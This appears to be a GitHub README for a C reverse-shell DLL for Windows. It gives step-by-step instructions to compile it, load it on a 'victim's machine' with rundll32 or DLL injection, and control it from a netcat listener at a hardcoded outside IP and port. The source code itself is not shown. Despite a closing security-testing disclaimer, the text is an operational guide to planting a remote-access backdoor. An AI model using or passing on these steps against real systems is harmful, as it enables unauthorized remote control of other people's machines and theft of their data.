 # Introduction to ReverseShell DLL

This is a C source code that creates a Reverse Shell in the form of a Dynamic Link Library (DLL) on Windows, utilizing Winsock to establish a reverse connection to a remote server. This DLL can be used to execute remote commands via a TCP connection.

## Main Features
- **Establishes a reverse connection** (Reverse Shell) to a specified IP address and port.
- **Receives commands** from the remote server and executes them on the victim's machine.
- **Sends the command execution results** back to the server.

## Code Structure
- **ReverseShell**: The main function that handles the reverse connection and command processing.
- **DllMain**: The DLL entry point, automatically calls the `ReverseShell` function when the DLL is loaded into a process.

## Connection Details
- **Server IP**: `3.7.100.109` (can be modified in the source code).
- **Port**: `57588` (can be modified in the source code).

---

# How to Compile and Use

## Requirements
- A **C compiler** that supports Windows, such as **Microsoft Visual Studio**.
- The **Winsock library** (`ws2_32.lib`) for network functions.

## Compilation Instructions

### 1. **Prepare the Source Code**:
   - Copy the provided code into a `.c` file (e.g., `reverseshell.c`).

### 2. **Compile the Code into a DLL**:
   - Open a **Developer Command Prompt** for Visual Studio.
   - Navigate to the directory where the `reverseshell.c` file is saved.
   - Run the following command to compile the source code:
     ```bash
     cl /LD reverseshell.c /link ws2_32.lib
     ```
     This command will compile the code into a DLL named `reverseshell.dll`.

### 3. **Verification**:
   - Ensure that the `.dll` file is successfully created in the current directory.
   - You should see the file `reverseshell.dll` after the compilation completes.

## How to Use the DLL

### 1. **Load the DLL into a Process**:
   - To execute the DLL, use a tool like **`rundll32.exe`**:
     ```bash
     rundll32.exe reverseshell.dll,ReverseShell
     ```
   - Alternatively, inject the DLL into another process using **DLL Injection techniques**, such as **`CreateRemoteThread`** and **`LoadLibrary`**.

### 2. **Set Up a Listening Server**:
   - On the attacker's server (with IP `3.7.100.109`), use a tool like **`netcat`** to listen on port `57588`:
     ```bash
     nc -lvp 57588
     ```
   - This will allow the server to accept the incoming reverse connection from the victim machine.

### 3. **Execute Commands**:
   - After successfully loading the DLL on the victim machine, it will connect back to the server.
   - From the server terminal, you can send system commands (e.g., `dir`, `whoami`) and receive their output.
     Example:
     ```bash
     dir
     whoami
     ```
   - The results will be sent back and displayed on the server's terminal.

---

# Notes
- **Customization**: You can modify the IP address and port by changing the `domain` and `port` variables in the source code before compiling.
- **Security Considerations**: This code is intended for **security testing** purposes only. Always use it in controlled environments, and ensure that you have explicit permission before testing on any network or system.
- **Legal and Ethical Use**: Ensure compliance with local laws, regulations, and ethical guidelines when using this code.
- **Limitations**: The code is a basic implementation and does not include detailed error handling. If the server fails to respond or if there is network instability, the connection may be interrupted or closed.

---

# Practical Example

### Step 1: Compile the DLL
- First, compile the `reverseshell.c` file into a DLL using:
  ```bash
  cl /LD reverseshell.c /link ws2_32.lib
  ```
### Step 2: Set Up the Server to Listen for Incoming Connections
- On your attacker machine, start a listener using netcat:
```
nc -lvp 57588
```
### Step 3: Load the DLL on the Victim’s Machine
- Load the reverseshell.dll into the victim's machine process using rundll32.exe:
```
rundll32.exe reverseshell.dll,ReverseShell
```
### Step 4: Send a Command from the Server
- Once the victim's machine connects back to your server, you can send commands from your netcat listener, such as:
```
dir
```

  
